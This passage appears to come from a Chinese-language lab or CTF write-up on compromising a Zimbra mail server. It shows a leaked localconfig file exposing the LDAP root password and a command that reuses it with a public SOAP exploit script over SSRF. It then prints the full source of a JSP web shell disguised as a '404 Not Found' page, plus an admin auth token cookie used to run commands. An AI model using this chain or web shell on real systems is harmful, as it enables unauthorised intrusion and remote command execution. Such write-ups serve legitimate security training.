  &lt;/key&gt;
  &lt;key name="ldap_host"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zmtrainsa_cleanup_host"&gt;
    &lt;value&gt;true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="antispam_mysql_host"&gt;
    &lt;value&gt;127.0.0.1&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_zmprov_default_to_ldap"&gt;
    &lt;value&gt;false&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_uid"&gt;
    &lt;value&gt;997&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="mailboxd_java_options"&gt;
    &lt;value&gt;-server -Dhttps.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djdk.tls.client.protocols=TLSv1,TLSv1.1,TLSv1.2 -Djava.awt.headless=true -Dsun.net.inetaddr.ttl=${networkaddress_cache_ttl} -Dorg.apache.jasper.compiler.disablejsr199=true -XX:+UseConcMarkSweepGC -XX:PermSize=128m -XX:MaxPermSize=350m -XX:SoftRefLRUPolicyMSPerMB=1 -verbose:gc -XX:+PrintGCDetails -XX:+PrintGCDateStamps -XX:+PrintGCApplicationStoppedTime -XX:-OmitStackTraceInFastThrow -Xloggc:/opt/zimbra/log/gc.log -XX:-UseGCLogFileRotation -XX:NumberOfGCLogFiles=20 -XX:GCLogFileSize=4096K -Djava.net.preferIPv4Stack=true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_is_master"&gt;
    &lt;value&gt;true&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_server_hostname"&gt;
    &lt;value&gt;mail.cslab.com&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_root_password"&gt;
    &lt;value&gt;rhqkAlU5n_&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="postfix_mail_owner"&gt;
    &lt;value&gt;postfix&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="zimbra_ldap_userdn"&gt;
    &lt;value&gt;uid=zimbra,cn=admins,cn=zimbra&lt;/value&gt;
  &lt;/key&gt;
  &lt;key name="ldap_db_maxsize"&gt;
    &lt;value&gt;18238930944&lt;/value&gt;
  &lt;/key&gt;
&lt;/localconfig&gt;
</pre></p><hr><i><small>Powered by Jetty://</small></i><hr/>

</body>

</html>
```



拿到ldap\_root\_password

```
zimbra
rhqkAlU5n_
```

直接打EXP:<https://github.com/3gstudent/Homework-of-Python/blob/master/Zimbra_SOAP_API_Manage.py>

```
python3 Zimbra_SOAP_API_Manage.py https://10.0.0.12 zimbra rhqkAlU5n_ ssrf
```

选择功能

```
uploadwebshell
```

传shell.jsp

```
<!-- gh/aels -->
 
<H1><CENTER>404 Not Found</CENTER></H1>

<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    String output = "";
    String error = "";
    if(cmd != null) {
        String[] commandAndArgs = new String[]{ "/bin/bash", "-c", cmd };
        String s = null;
        Process process = Runtime.getRuntime().exec(commandAndArgs);
        InputStream inputStream = process.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
        Thread.sleep(2000);
        while(process.isAlive()) Thread.sleep(100);
        while((s = reader.readLine()) != null) { output += s+"
"; }
        reader = new BufferedReader(new InputStreamReader(process.getErrorStream()));
        while((s = reader.readLine()) != null) { error += s+"
"; }
    }
%>

<FORM><INPUT name=cmd style=border:0;display:block; type=text value='<%=cmd %>'></FORM>

<pre>
    <%=output %>
    <%=error %>
</pre>
```

然后有一个弹窗

Cookie传入

```
ZM_ADMIN_AUTH_TOKEN=0_ee7578ee8c0f5fad78ad16da82708e8458c4d3e1_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313733393534363335393437383b61646d696e3d313a313b747970653d363a7a696d6272613b7469643d31303a313030313832363636353b
```

就可以执行命令了



‍
